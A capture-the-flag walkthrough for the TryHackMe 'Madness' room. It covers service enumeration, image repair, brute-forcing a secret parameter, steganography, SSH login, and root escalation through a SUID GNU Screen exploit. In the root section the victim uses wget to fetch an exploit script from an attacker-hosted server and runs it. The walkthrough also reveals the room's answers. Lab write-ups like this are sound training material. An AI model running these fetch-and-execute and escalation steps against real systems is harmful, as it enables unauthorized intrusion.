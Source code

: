 # [Madness](https://tryhackme.com/room/madness)

## Will you be consumed by Madness?

# Flag Submission

### user.txt

_There's something ROTten about this guys name!_

1. Enumerate services with `nmap` to identify open ports and running services

```bash
nmap IP
```

[SCREEN01]

2. Exploring the web server, examine the source code of the main page at `http://IP/`. There we find some interesting comments and a reference to `thm.jpg`. Download the image for further examination

```bash
wget http://IP/thm.jpg
```

[SCREEN02]

3. The downloaded image appears broken and won't display properly. Examine the file header to identify the issue
   - The file has PNG magic numbers but a JPG extension, causing the display issue

```bash
xxd -l 24 thm.jpg
```

[SCREEN03]

4. Fix the file by changing the magic numbers from PNG format to JPG format using a hex editor

```bash
hexedit thm.jpg
```

[SCREEN04]

5. After fixing the image, opening it reveals a hidden directory path: **/th1s_1s_h1dd3n**

[SCREEN05]

6. Navigating to `http://IP/th1s_1s_h1dd3n/` shows a page with a secret input. In the page source, we find a comment mentioning that the secret value is a number between 0 and 99

[SCREEN06]

7. The secret can be submitted via the `secret` parameter by adding `?secret=` to the URL. We can use Burp Suite's Intruder feature to brute force values from 0 to 99

[SCREEN07]

8. In the Intruder attack results, examine the response length to identify the correct secret value
   - After submitting the correct secret value (73), we receive a string: **y2RPJ4QaPF!B**

[SCREEN08]

9. Return to the fixed `thm.jpg` image and use steghide to extract hidden data using **y2RPJ4QaPF!B** as the password

```bash
steghide extract -sf thm.jpg
```

[SCREEN09]

10. The hint mentioned something "ROTten" - this suggests ROT13 encoding. Decode the username using ROT13 in [CyberChef](https://gchq.github.io/CyberChef/) to get the actual username: **joker**

[SCREEN10]

11. For the password, we need to examine another image linked in the room description: `https://i.imgur.com/5iW7kC8.jpeg`. Download and extract hidden content with `steghide` without requiring a password

```bash
steghide extract -sf 5iW7kC8.jpg
```

[SCREEN11]

12. Now with both username and password, connect via SSH and retrieve the user flag

```bash
ssh joker@IP
cat user.txt
```

[SCREEN12]

---

### root.txt

1. Check for files with SUID permissions to identify potential privilege escalation vectors
   - The results show several binaries with SUID bit set, and `/bin/screen` looks particularly interesting as it's not commonly set with SUID permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

[SCREEN13]

3. Research reveals that GNU Screen 4.5.0 has a known local privilege escalation vulnerability (CVE-2017-5618). Download the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/41154) to your attacker machine and transfer it to the victim's `/tmp` directory

```bash
# On attacker machine
python3 -m http.server
```

```bash
# On victim machine
cd /tmp/
wget http://IP:8000/41154.sh
chmod +x 41154.sh
./41154.sh
whoami
cat /root/root.txt
```

[SCREEN14]
